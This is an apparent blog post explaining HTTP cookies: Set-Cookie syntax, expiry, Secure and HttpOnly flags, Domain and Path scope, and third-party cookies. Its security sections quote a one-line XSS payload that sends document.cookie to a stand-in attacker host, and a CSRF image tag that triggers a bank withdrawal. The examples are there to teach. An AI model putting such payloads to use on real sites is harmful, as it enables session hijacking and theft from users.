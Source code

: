 ```yaml
---
layout : post
title : Http Cookie
comments: true
categories : Other
---
```


  An HTTP cookie is a small piece of data that a server sends to the user's web browser. 
  
  The browser stores it(if it is enabled) and send it back to the same server in subsequent each request
  inside a Cookie HTTP header, even including requests for assets like images or CSS / JavaScript files.

### Purpose

  1. Session management
  2. Personalization
  3. Tracking
  
### Restrictions of Cookie

  - Cookies can only store 4KB of data
  - Cookies are private to the domain. A site can only read the cookies it set, not other domains cookies
  - You can have up to 20 limits of cookies per domain (but the exact number depends on the specific browser implementation)
  - Cookies are limited in their total number (but the exact number depends on the specific browser implementation). 
    If this number is exceeded, new cookies replace the older ones.
  
### Storage

  It is recommended nowadays to prefer modern storage APIs to improve performance. 
  
  Modern APIs for client storage are the [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) (`localStorage` and `sessionStorage`) 
  and [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API).
  
### Creating cookies

  When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. A simple cookie is set like this:
  
  > Set-Cookie: \<cookie-name\>=\<cookie-value\>
  
  This header from the server tells the client to store a cookie.
  
  After that, the browser will send back all previously stored cookies to the server using the `Cookie` header.
  
#### Valid Cookie Value

  Cookie value should not contain any whitespace, comma or semicolon.
  
### Delete cookie

  To delete a cookie, unset its value and pass a date in the past.
  
### Session cookies

  Session cookie will be deleted when the browser is closed, because it didn't specify an `Expires` or `Max-Age` directive.
  
### Permanent cookies

  Permanent cookies expire at a specific date (`Expires`) or after a specific length of time (`Max-Age`).
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  Note: When an expiry date is set, the time and date set is relative to the client the cookie is being set on, not the server.
  
### Secure and HttpOnly cookies

  A `secure` cookie is only sent to the server over the `HTTPS` protocol. 
  
  **Note: This flag doesn't make sure the cookies will be sent secure.** 
  
  To prevent cross-site scripting (XSS) attacks, `HttpOnly` cookies are inaccessible to JavaScript's `Document.cookie` API,
  that is if the `HttpOnly` flag is not set, existing cookies can be accessed from JavaScript like `console.log(document.cookie);`.
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  
### Domain and Path

  The `Domain` and `Path` directives define the scope of the cookie: what URLs the cookies should be sent to.
  
#### Domain

  The purpose of the domain is to allow cookies to cross sub-domains. 
  
  If unspecified, it defaults to the host of the current document location, **excluding subdomains**. 
  If it is specified, then subdomains are always included.

  For example, if `Domain=mozilla.org` is set, then cookies are included on subdomains like `developer.mozilla.org`.
  
#### Path

  The `path` gives you the chance to specify a directory where the cookie is active. 
  
  For example, if `path=/docs` is set, this cookie is sent on `/docs`, `/docs/Web/` and other sub-urls of `/docs`.

  If you don’t set a path, it defaults to the current document location. 
  
  Usually the path is set to `/`, which means the cookie is valid throughout the **entire domain**.
  
  Please refer [Paths and Path-Match](https://tools.ietf.org/html/rfc6265#section-5.1.4) for detail.
  
##### Difference between with / and without /

[internet-explorer-sends-the-wrong-cookie-when-the-paths-overlap](https://stackoverflow.com/questions/8292449/internet-explorer-sends-the-wrong-cookie-when-the-paths-overlap)
  
### Security

  Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
  
  > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  
### Cross-site request forgery (CSRF)

  Someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), 
  instead it really is a request to your bank’s server to withdraw money:
  
  > \<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  
### Third-party cookies

  Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, 
  the cookies is said to be a **first-party cookie**. If the domain is different, it is said to be a **third-party cookie**. 
  
  While `first-party` cookies are sent only to the server setting them, 
  a web page may contain images or other components stored on servers in other domains (like ad banners).
  
### Do-Not-Track

  The `DNT` header can be used to signal that a web application should disable either its tracking or 
  cross-site user tracking of an individual user. 
  
### Alternatives to cookie

  **JSON Web Tokens (JWT)**, which is a **Token-based Authentication**.
  
### References

[mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

[humanwhocodes](https://humanwhocodes.com/blog/2009/05/05/http-cookies-explained/)

[flaviocopes](https://flaviocopes.com/cookies/)

[a-few-speed-improvements](https://stackoverflow.blog/2009/08/09/a-few-speed-improvements/)

[how-do-browsers-know-which-cookie-to-get](https://security.stackexchange.com/questions/33348/how-do-browsers-know-which-cookie-to-get)

[cookie-attributes-and-their-importance](https://www.paladion.net/blogs/cookie-attributes-and-their-importance)

[cookies](https://www.quirksmode.org/js/cookies.html)
